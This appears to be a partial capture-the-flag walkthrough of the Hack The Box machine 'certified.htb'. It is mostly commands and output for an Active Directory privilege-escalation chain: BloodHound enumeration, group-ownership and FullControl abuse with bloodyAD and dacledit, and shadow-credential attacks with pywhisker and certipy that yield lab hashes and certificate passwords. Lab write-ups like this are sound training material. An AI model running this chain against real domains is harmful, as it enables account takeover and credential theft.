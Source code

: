 
initaial access with given user: 

```
judith.mader:judith09
```

## Run Bloodhound

```
bloodhound.py -u 'judith.mader' -p 'judith09' -d 'certified.htb' -dc dc01.certified.htb -ns 10.129.73.100 -c all
```

Import data to bloodhound

Judith has writeonwer rights on group "Management"
there for we can add judith as the owner of this group. 

this can be done with bloodyAD

```
bloodyAD --host 10.129.73.100 -d "certified.htb" -u "judith.mader" -p "judith09" set owner Management judith.mader
```

now we are owner of the group. we can add judith into to groub give her full control rights and then change the password for "management_svc"

```
KRB5CCNAME=judith.mader.ccache dacledit.py -k -no-pass -dc-ip 10.129.73.100 -principal judith.mader -target Management -action write -rights FullControl certified.htb/judith.mader
```

### add judith to Managment group

```
bloodyAD --host 10.129.73.100 -d "certified.htb" -u "judith.mader" -p "judith09" add groupMember Management judith.mader
```

with the following command we can change the password for management_svc

this is done via pywhisker

```
pywhisker -d "certified.htb" -u "judith.mader" -p "judith09" -t "management_svc" -a "add"
```

now we have changed the password for management_svc

```
❯ pywhisker -d "certified.htb" -u "judith.mader" -p "judith09" -t "management_svc" -a "add"
[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: b2011c96-19a7-3ad3-f5ce-062635b7e708
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: y8DqIstn.pfx
[*] Must be used with password: JHMLsBj7SBhwkWOKu5QV
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITto
```

### change password for CA_OPERATOR

Management_svc user has GenericAll rights on CA_Operator. Therefore we can now change this password aswell. 

```
pywhisker -d "certified.htb" -u "management_svc" -p "JHMLsBj7SBhwkWOKu5QV" -t "management_svc" -a "add
```



```
❯ certipy auth -pfx mmgt_svc.pfx -username 'management_svc'  -domain 'certified.htb' -dc-ip 10.129.73.100
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[!] Could not find identification in the provided certificate
[*] Using principal: management_svc@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'management_svc.ccache'
[*] Trying to retrieve NT hash for 'management_svc'
[*] Got hash for 'management_svc@certified.htb': aad3b435b51404eeaad3b435b51404ee:a091c1832bcdd4677c28b5a6a1295584
```

```
pywhisker -d "certified.htb" -u "management_svc" -H aad3b435b51404eeaad3b435b51404ee:a091c1832bcdd4677c28b5a6a1295584 -t "ca_operator" -a "add"
[*] Searching for the target account
[*] Target user found: CN=operator ca,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 077b952c-0022-2c06-e298-014ae032b1ae
[*] Updating the msDS-KeyCredentialLink attribute of ca_operator
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: HOEE0Xqo.pfx
[*] Must be used with password: 1xMrCb09Xclpdspr5BBI
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

